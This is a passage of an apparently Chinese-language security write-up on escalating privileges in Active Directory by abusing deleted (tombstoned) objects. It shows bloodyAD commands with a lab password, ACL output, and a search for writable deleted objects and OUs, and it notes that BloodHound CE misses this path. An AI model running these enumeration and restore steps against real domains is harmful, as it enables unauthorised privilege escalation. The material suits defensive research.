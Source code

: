 ```
distinguishedName: CN=test_pc3\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_PRESENT|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.28.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.28.Trustee: john
nTSecurityDescriptor.ACL.28.Right: GENERIC_ALL
nTSecurityDescriptor.ACL.28.ObjectType: Self
nTSecurityDescriptor.ACL.28.Flags: CONTAINER_INHERIT; INHERITED
[...]


$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get object 'CN=Users,DC=bloody,DC=corp' --attr ntsecuritydescriptor --resolve-sd


distinguishedName: CN=Users,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_AUTO_INHERITED|DACL_PRESENT|SACL_AUTO_INHERITED|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.3.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.3.Trustee: john
nTSecurityDescriptor.ACL.3.Right: CREATE_CHILD
nTSecurityDescriptor.ACL.3.ObjectType: Self
nTSecurityDescriptor.ACL.3.Flags: CONTAINER_INHERIT
[...]
```

  
默认情况下，只有域管理员 (Domain Admins) 能够列出和恢复已删除的对象。  
  
尽管文档表明 SharpHound 可以检索已删除对象，但即使以域管理员身份运行，它也无法实现这一功能（参见BloodHound 文档）。 因此，BloodHound CE 无法检测来自已删除对象的权限提升机会。  
## 实际攻击场景  
  
当攻击者确保他们对已删除对象和组织单位 (OU) 拥有足够的权限，并且具备**恢复墓碑对象**  
(Restore Tombstoned) 权限时：  

```


$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get writable --include-del
[...]
distinguishedName: CN=garbage.admin\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
permission: WRITE
[...]
DistinguishedName: CN=Users,DC=bloody,DC=corp
permission: CREATE_CHILD
```
